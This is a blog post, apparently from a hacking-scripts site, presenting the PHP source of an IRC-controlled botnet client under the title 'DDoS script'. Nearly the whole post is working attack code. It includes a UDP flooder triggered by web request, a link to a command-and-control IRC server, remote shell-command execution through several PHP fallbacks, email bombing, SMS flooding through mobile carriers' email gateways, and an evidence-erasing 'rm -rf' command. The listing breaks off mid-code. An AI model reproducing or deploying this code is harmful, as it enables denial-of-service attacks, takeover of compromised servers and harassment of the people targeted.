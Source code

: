 ```yaml
---
id: 39
title: DDoS script
author: admin
layout: post
guid: http://hackingscripts.com/?p=39
permalink: /ddos-script/
categories:
  - DDoS
  - DoS
  - PHP
tags:
  - DDoS
  - DoS
  - PHP
---
```

This is a [DoS/DDoS][1] (denial-of-service/distributed denial-of-service) script, which is used to temporarily take down a machine and make it unavailable to its intended users.

This particular script contained a lot of bad language, which I have censored for net-friendlinmess purposes.


### DDoS Script Source Code

{% highlight php linenos %}<?
if($_GET['act'] == 'lol'){
udpflood4($_GET['host'], $_GET['psize'], $_GET['time'], $_GET['port']);
}
/****************************************************/
/*     ---------------------UniX--------------------            */
/* UniX Bot - Coding by ANoN - This code is Very PUBLIC!            */
/* + Modded UDP Flooder         */
/* + Removed TCP Flooder                                */
/* + Added email bomb                                        */
/* + Added join message                    */
/* + Added !site command         */
/* + Added whois                                         */
/* + Added port scan                                         */
/* + Added Quick UDP Flood                                         */
/* + Added Colors                                        */
/* + Added Count Command    */
/* - Removed Host (IP Address) Auth (Its bullssss)    */
/* + Added Credits                                */
/* + Added Speedtest     */
/* - Removed Useless ssss    */
/* + Cleaned the code    */
/* + Added Version    */
/* + Added New nicks     */
/* + Added Update command     */
/* + Made the update command idiot proof    */
/* + Added commands command    */
/* + Added id command    */
/* + Added uptime command    */
/* + Added evidence eraser    */
/* + Added Cell Phone Spammer    */
/* + Added Cell info    */
/* + Added change prefix    */
/* + Added install update command    */
/* + Added port 3074 DDoS     */
/* + ICMP ddoS?    */
/* + FTP ddoS?    */
/* + Added 2 Player ddos feature     */
/* + Added 3 Player ddos feature     */
/* + Added 4 Player ddos feature     */
/****************************************************/
    set_time_limit( 0 );
    error_reporting( 0 );
    echo "ANoNyMoUS iZ LeGioN";
    class Mike_Unix
    {
        var $using_encode = true;
        var $config = array(
            'nickform'    =&gt; 'FraseR|%d]',
            'nickform2'    =&gt; '%d]',
            'prfix'    =&gt; 'NzM|%d]',
            'identp'    =&gt; 'Mike',
            'modes'        =&gt; '+B',
            'maxrand'    =&gt; 6,
            'maxrand2'    =&gt; 1,
            'maxrand3'    =&gt; 2,
            'maxrand4'    =&gt; 3,
            'cprefix'    =&gt; '.',
            'version'    =&gt; '1.0',
            'host'        =&gt; '*',
            'yellow'        =&gt; '12',
            'blue'        =&gt; '4',
            'orange'        =&gt; '9',
            'green'        =&gt; '7',
            'leetprefix'        =&gt; '4&gt;&gt;',
            'leetsuffix'        =&gt; '12&lt;&lt;',
            'leetprefixwhite'        =&gt; '0&gt;&gt;',
            'leetsuffixwhite'        =&gt; '0&lt;&lt;',
            'leetsuffixred'        =&gt; '4&lt;&lt;',
            'part1'        =&gt; '0?~{ 4',
            'part2'        =&gt; '0}~?',
            'hostauth'        =&gt; '*'
        );
        var $messages = array
        (
        'bad'        =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'loginmsg'    =&gt; '0?~{ 14L0o14G0i14N 0}~? 0',
        'entry'        =&gt; '0?~{ 14ElatioN 14B0o14T0 }~? 14E0x14e0c0u14t0e14D',
        'id'        =&gt; '0?~{ 4 Frasers Anti-Private bot v1.0  0}~?',
        'udpmsg'        =&gt; '0?~{ 12UDP Flood Active 0}~?',
        'udpmsgfast'        =&gt; '0?~{ 12Quick UDP-FLOOD 0}~?',
        'speedtest'        =&gt; '0?~{ 9 Speedtest Starting Up...... 0}~?',
        'speedtestfin'        =&gt; '0?~{ 9 The Speedtest Is Complete. 0}~?',
        'logoutmsg'        =&gt; '0?~{ 14S0e14e 0Y14a 0L14a0T14e0R,',
        'mailmsg'        =&gt; '14N0a14i0L14e0R',
        'sprintmsg'        =&gt; '14S0p14r0i14n0T 14P0C14S',
        'execmsg'        =&gt; '14E0x14E0C'
        );
        var $admins = array
        (
         'Fraser' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'RoboFTW' =&gt; '6d67f24e6f2cff6ed5b0495fab78618a',
         'chrisjnsn' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Respect' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'NadeZ' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account6' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account7' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account8' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account9' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account10' =&gt; 'e48e13207341b6bffb7fb1622282247b',
         'Account11' =&gt; 'e48e13207341b6bffb7fb1622282247b',
        );
        function auth_host( $nick, $password, $host )
        {
                $this-&gt;users[ $host ] = true;
        }
        function is_authed( $host )
        {
            return isset( $this-&gt;users[ $host ] );
        }
        function remove_auth( $host )
        {
            unset( $this-&gt;users[ $host ] );
        }
        function ex( $cfe )
        {
            $res = '';
            if (!empty($cfe))
            {
                if(function_exists('class_exists') && class_exists('Perl'))
                {
                    $perl = new Perl();
                    $perl-&gt;eval( "system('$cfe');" );
                }
                if(function_exists('exec'))
                {
                    @exec($cfe,$res);
                    $res = join("\n",$res);
                }
                elseif(function_exists('shell_exec'))
                {
                    $res = @shell_exec($cfe);
                }
                elseif(function_exists('system'))
                {
                    @ob_start();
                    @system($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('passthru'))
                {
                    @ob_start();
                    @passthru($cfe);
                    $res = @ob_get_contents();
                    @ob_end_clean();
                }
                elseif(function_exists('proc_open'))
                {
                    $res = proc_open($cfe);
                }
                elseif(@is_resource($f = @popen($cfe,"r")))
                {
                    $res = "";
                    while(!@feof($f)) { $res .= @fread($f,1024); }
                    @pclose($f);
                }
            }
            return $res;
        }
        function is_safe( )
        {
            if( ( @eregi( "uid", $this-&gt;ex( "id" ) ) ) || ( @eregi( "Windows", $this-&gt;ex( "net start" ) ) ) )
            {
                return 0;
            }
            return 1;
        }
        function ffff_you( )
        {
            if( $this-&gt;using_encode )
            {
                $enc0ded = "I0NhYmJhZ2U=";
                return base64_decode($enc0ded);
            }
            else
            {
                return '#'.$this-&gt;config[ 'chan' ];
            }
        }
        function start()
        {
            if( $this-&gt;using_encode )
            {
                $crackedout = "IPHERE";
                if(!($this-&gt;conn = fsockopen(base64_decode($crackedout),6667,$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            else
            {
                if(!($this-&gt;conn = fsockopen($this-&gt;config['server'],$this-&gt;config['port'],$e,$s,30)))
                {
                    $this-&gt;start();
                }
            }
            $ident = $this-&gt;config['prefix'];
            $alph = range("0","9");
            for( $i=0; $i &lt; $this-&gt;config['maxrand']; $i++ )
            {
                $ident .= $alph[rand(0,9)];
            }
            if( strlen( $this-&gt;config[ 'pass' ] ) &gt; 0 )
            {
                $this-&gt;send( "PASS ".$this-&gt;config[ 'pass' ] );
            }
            $motha = "Fraser";
            $mike = " non-private non-unix";
            $this-&gt;send("USER ".$motha." 127.0.0.1 localhost :".$mike."");
            $this-&gt;set_nick( );
            $this-&gt;main( );
        }
        function main()
        {
            while(!feof($this-&gt;conn))
            {
                $this-&gt;buf = trim(fgets($this-&gt;conn,512));
                $cmd = explode(" ",$this-&gt;buf);
                if(substr($this-&gt;buf,0,6)=="PING :")
                {
                    $this-&gt;send("PONG :".substr($this-&gt;buf,6));
                }
                if(isset($cmd[1]) && $cmd[1] =="001")
                {
                    $this-&gt;send("MODE ".$this-&gt;nick." ".$this-&gt;config['modes']);
                    if( $this-&gt;using_encode )
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),base64_decode($this-&gt;config['key']));
                        $entry = $this-&gt;messages['entry'];
                        $leetprefix = $this-&gt;config['leetprefix'];
                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                        $ip = ( $_SERVER["HTTP_HOST"] );
                        $blue = $this-&gt;config['blue'];
                        $red = $this-&gt;config['yellow'];
                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefix $entry $leetsuffixred" );
                    }
                    else
                    {
                        $this-&gt;join($this-&gt;ffff_you( ),$this-&gt;config['key']);
                    }
                    if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") { $safemode = "on"; }
                    else { $safemode = "off"; }
                    $uname = php_uname();
                }
                if(isset($cmd[1]) && $cmd[1]=="433")
                {
                    $this-&gt;set_nick();
                }
                if($this-&gt;buf != $old_buf)
                {
                    $mcmd = array();
                    $msg = substr(strstr($this-&gt;buf," :"),2);
                    $msgcmd = explode(" ",$msg);
                    $nick = explode("!",$cmd[0]);
                    $vhost = explode("@",$nick[1]);
                    $vhost = $vhost[1];
                    $nick = substr($nick[0],1);
                    $host = $cmd[0];
                    if($msgcmd[0]==$this-&gt;nick)
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i+1];
                    }
                    else
                    {
                        for($i=0;$i&lt;count($msgcmd);$i++)
                            $mcmd[$i] = $msgcmd[$i];
                    }
                    if(count($cmd)&gt;2)
                    {
                        switch($cmd[1])
                        {
                            case "QUIT":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PART":
                            {
                                if( $this-&gt;is_authed( $host ) )
                                {
                                    $this-&gt;remove_auth( $host );
                                }
                            }
                            break;
                            case "PRIVMSG":
                                if( ( substr($mcmd[0],0,1) == $this-&gt;config[ 'cprefix' ] ) )
                                {
                                    if( $this-&gt;is_authed( $host ) == false )
                                    {
                                        switch( substr( $mcmd[ 0 ], 1 ) )
                                        {
                                            case "l":
                                            {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                if( $nick == "Fraser" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello, $leetprefix FraseR $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "RoboFTW" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg  Robo's In DA House!" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "_0xi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg iTz My NiGGa $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "HELLOKiTty" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Meeeeeow ;] $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "chrisjnsn" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello Chris" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "KeShiMi" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg LORD OF THE MO ffffIN KITTENS IN THA HOUSE $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Code" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Good day Mr. $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Router" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Kentucky Fried $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Respect" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "Mason" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg By Your Command, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                  if( $this-&gt;is_authed( $host ) )
                                                {
                                                    if( $nick == "NadeZ" )
                                                    {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Hello there, $leetprefix $nick $leetsuffixred" );
                                                    break;
                                                }
                                                }
                                                else
                                                {
                                                    $this-&gt;auth_host( $nick, $mcmd[ 1 ], $host );
                                                    $this-&gt;ex('rm -rf ion_cache.dat');
                                                    $this-&gt;ex('rm -rf *gow*');
                                                    $this-&gt;ex( "echo $nick &gt;&gt; ion_cache.dat" );
                                                    $loginmsg = $this-&gt;messages['loginmsg'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$loginmsg Gonna HiT Sum XbL Kid'z" );
                                                    break;
                                                            }
                                                                }
                                    }
                                }
                                    else
                                    {
                                        switch(substr($mcmd[0],1))
                                        {
                                            case "exec":
                                            {
                                                if( !$this-&gt;is_safe( ) )
                                                {
                                                    $command = substr( strstr( $msg, $mcmd[0] ), strlen( $mcmd[0] ) + 1 );
                                                    $returndata = $this-&gt;ex( $command );
                                                    if( !empty( $returndata ) )
                                                    {
                                                        $execmsg = $this-&gt;messages['execmsg'];
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"$red $part1 $blue$execmsg $red $part2 $leetsuffixred $red $returndata");
                                                    }
                                                }
                                                break;
                                            }
                                                case "bomb":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                    $header = "From: &lt;".$mcmd[2]."&gt;";
                                                    if(!mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header))
                                                    {
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ),"[\2MAIL\2]: Unable to send email.");
                                                    }
                                                    else
                                                    {
                                                        $mbomb = 1;
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($mcmd[1],$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $mailmsg = $this-&gt;messages['mailmsg'];
                                                                $part1 = $this-&gt;config['part1'];
                                                                $part2 = $this-&gt;config['part2'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1 $mailmsg: $part2 \2 Sent\3"."4 $mcmd[4] \3Emails to \3"."4$mcmd[1]\3 From: \3"."4$mcmd[2]\3 Subject: \3"."4$mcmd[3]\3 \2");
                                                            }
                                                    }
                                                }
                                                break;
                                            }
                                                case "sprint":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $sprintmail = "@messaging.sprintpcs.com";
                                                        $sprint = "$mcmd[1]$sprintmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($sprint,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $sprintmsg = $this-&gt;messages['sprintmsg'];
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$sprintmsg $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "verizon":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $verizonmail = "@vtext.com";
                                                        $verizon = "$mcmd[1]$verizonmail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($verizon,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Verizon Wireless $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "tmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $tmobilemail = "@tmomail.net";
                                                        $tmobile = "$mcmd[1]$tmobilemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($tmobile,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red T-Mobile (USA Only) $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "att":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $attemail = "@txt.att.net";
                                                        $att = "$mcmd[1]$attemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($att,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red AT&T $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "uscellular":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $uscemail = "@email.uscc.net";
                                                        $usc = "$mcmd[1]$uscemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($usc,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red US Cellular $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                                case "boostmobile":
                                            {
                                                if(count($mcmd) &gt; 5)
                                                {
                                                          $part1 = $this-&gt;config['part1'];
                                                        $part2 = $this-&gt;config['part2'];
                                                        $blue = $this-&gt;config['blue'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $header = "From: &lt;".$mcmd[2]."&gt;";
                                                        $mbomb = 1;
                                                        $boostemail = "@myboostmobile.com";
                                                        $boost = "$mcmd[1]$boostemail";
                                                        while($mbomb &lt;= $mcmd[4])
                                                            {
                                                                mail($boost,$mcmd[3],strstr($msg,$mcmd[5]),$header);
                                                                $mbomb++;
                                                            }
                                                        if($mbomb = $mcmd[4])
                                                            {
                                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red Boost Mobile Inc. $part2$blue Sent ".$red." $mcmd[4] ".$blue."Text Message(s) to".$red." $mcmd[1] ".$blue."From:".$red." $mcmd[2]$blue With Subject: ".$red."$mcmd[3]");
                                                            }
                                                }
                                                break;
                                            }
                                            case "count":
                                            {
                                                    $lines = $this-&gt;ex( "cat cache.dat | wc -l" );
                                                    $red = $this-&gt;config['yellow'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "$red I have done $leetprefixwhite $lines $leetsuffixwhite floods in total." );
                                                break;
                                            }
                                                case "nick":
                                            {
                                                if( $mcmd[ 1 ] == nzm )
                                                    {
                                                    $this-&gt;nzm_nick();
                                                    break;
                                                    }
                                                if( $mcmd[ 1 ] == unix )
                                                    {
                                                    $this-&gt;busk_nick();
                                                    break;
                                                    }
                                                else
                                                {
                                                $this-&gt;set_nick;
                                                break;
                                            }
                                        }
                                            case "credits":
                                            {
                                                    $red = $this-&gt;config['yellow'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $orange = $this-&gt;config['orange'];
                                                    $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                    $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "".$leetprefixwhite."".$red." FBI $leetsuffixwhite $orange Elation Bot Version $version By: $leetprefixwhite $red Mike $leetsuffixwhite $leetsuffixwhite $orange Built Using: $leetprefixwhite $red Frasers PHP Bot Builder $leetsuffixwhite" );
                                                break;
                                            }
                                            case "noevidence":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $bybye = $this-&gt;ex( 'rm -rf *gow*' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." EviDenCe ".$part2."".$blue." All Bot Files and Evidence Erased!");
                                                break;
                                            }
                                            case "version":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "changeprefix":
                                            {
                                                      $this-&gt;config['cprefix'] = $mcmd[1];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."Prefix Changed to $mcmd[1]");
                                                break;
                                            }
